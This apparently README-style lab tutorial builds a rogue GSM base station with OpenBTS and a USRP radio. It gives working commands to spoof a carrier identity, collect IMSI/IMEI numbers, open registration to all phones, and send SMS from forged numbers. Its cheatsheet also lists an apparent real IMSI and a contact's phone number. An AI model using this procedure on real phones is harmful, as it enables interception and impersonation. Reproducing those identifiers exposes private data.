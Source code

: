 * Introduction

We will use OpenBTS and a USRP B210 software defined radio to build a rogue GSM
base station, allowing to send fake SMS, intercept SMS between users, and spoof
the phone provider's identity.

* Requirements

- Ettus USRP B200mini/B210
- GHz Antenna
- 5 GB free
- Some test phones for the experiments. We will catch the IMEI and IMSI of the
  test phones, and whitest them, so that no other user will accidentally
  connect to the test network.

* Installation

OpenBTS official scripts assume to be installed on a Ubuntu 16.04 "Xenial"
system. Hence, a virtual machine is the better way to use it. We use Vagrant to
manage and provision the virtual machine.

First, install the needed tooling (VirtualBox and Vagrant) on the host
computer:

#+begin_src bash
make host-install
#+end_src

Reboot the machine that user group changes take effect.

Then, issue the following command that will install the guest operating system
and the needed tolling on it:

#+begin_src bash
vagrant up
#+end_src

This will create the virtual machine according to the =Vagrantfile= and provision
the guest operating system by calling the =guest-install= Makefile's target. The
operation took between 30 minutes and 1 hour.

* Testing the setup

Make sure the USRP B210 is connected to your machine, then connect to the
virtual machine.

#+begin_src bash
vagrant ssh
#+end_src

First, check that radio is detected:

#+begin_src bash
sudo uhd_find_devices
#+end_src

And that the radio is able to transmit:

#+begin_src bash
cd ~/openbts-install/dev/openbts/debian/openbts/OpenBTS/
sudo ./transceiver
#+end_src

* Mounting the rogue base station

Now, inside the guest, issue each of the following command in a separate
terminal (use =tmux=):

#+begin_src bash
cd ~/openbts-demo && make guest-launch-sipauth
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-smqueue
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-asterisk
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-openbts
#+end_src

Now, you should see a red LED on for the TX/RX antenna and a green LED on for
the RX2 antenna of the USRP.

#+begin_src bash
cd ~/openbts-demo && make guest-launch-openbtscli
#+end_src

Now, you can type commands in the OpenBTSCLI command line interface
(=OpenBTS>=). We assume that the following commands will be typed inside this
prompt.

A phone and a base station are meant to be far from each others. Hence, it is
important to put the phone at 50 cm away from the BS minimum, and to adjust the
receive gain, 2dB is a good value when the phone is close, to avoid
clipping. Also set the transmission attenuation, e.g. 20dB:

#+begin_src :eval never
rxgain 2
power 20
#+end_src

Setup a spoofed network identity. You can find MCC and MNC looking at
[[file:html/CellIFDinder.com - MCC MNC List.html]]. We chose an Italian operator
that is not available in France. With a French SIM, you have to select it
manually. With an Italian WIND SIM, it will be chosen automatically. If you
want to use an operator that exist in the area, then you have to overpower its
signal, we chose not to.

#+begin_src :eval never
config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88
#+end_src

Now, take a test phone and do a manual scan for the networks. You should see a
new carrier appear. Try to connect to the network (disabling mobile data and
switching plane mode could help), you will get a failure, but this is enough to
catch the IMSI/IMEI information. Look at IMSI collected:

#+begin_src :eval never
tmsis
#+end_src

#+begin_example
IMSI            TMSI IMEI            AUTH CREATED ACCESSED TMSI_ASSIGNED
2*************7 -    3*************0 0    3s      3s       0             
#+end_example

We can authorize this specific test phone, a mobile station (MS), to register by its IMSI:

#+begin_src :eval never
config Control.LUR.OpenRegistration 2*************7
#+end_src

Or authorize all MS to register with the following regular expression:

#+begin_src :eval never
config Control.LUR.OpenRegistration .*
#+end_src

Now your phone could connect. You can send an SMS to the phone, from any number
you want.

#+begin_src :eval never
sendsms 2*************7 0610102020 "Hey, you!"
#+end_src

At the end of the demonstration, reset the configuration:

#+begin_src :eval never
rmconfig GSM.Identity.ShortName
rmconfig GSM.Identity.MCC
rmconfig GSM.Identity.MNC
rmconfig Control.LUR.OpenRegistration
#+end_src

If you add two phones, they can send each other messages. Once you are done,
close all the programs. Then, halt the virtual machine.

#+begin_src bash
vagrant halt
#+end_src

* Cheatsheet

#+begin_example
IMSI of OnePlus 3T: 208017706545823
Number of one contact of mine: 0698803022

Series of command for OpenBTSCLI:

rxgain 2
power 20

config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88

tmsis
config Control.LUR.OpenRegistration 208017706545823
OR
config Control.LUR.OpenRegistration .*
sendsms 208017706545823 0698803022 "Hey, you!"

rmconfig GSM.Identity.ShortName
rmconfig GSM.Identity.MCC
rmconfig GSM.Identity.MNC
rmconfig Control.LUR.OpenRegistration
#+end_example

